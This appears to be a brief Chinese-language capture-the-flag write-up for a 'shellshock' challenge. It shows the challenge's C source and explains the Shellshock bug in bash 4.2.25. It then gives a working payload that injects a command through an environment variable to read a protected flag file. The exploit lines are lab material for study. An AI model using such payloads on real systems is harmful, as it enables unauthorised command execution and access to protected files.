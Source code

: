 ## Source code
```
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

## Pwn
這道題的 home 目錄下有一個 bash (4.2.25)，可使用 shellshock 達成 arbitrary command execution。

Shellshock：
```
env x="() { :;}; echo 'oh_shit'" ./bash -c ' echo test'
```

上面這行指令中，`() {:;};` 後面的東西會被執行，所以我們可以
```
env x="() { :;}; /bin/cat flag" ./shellshock
```
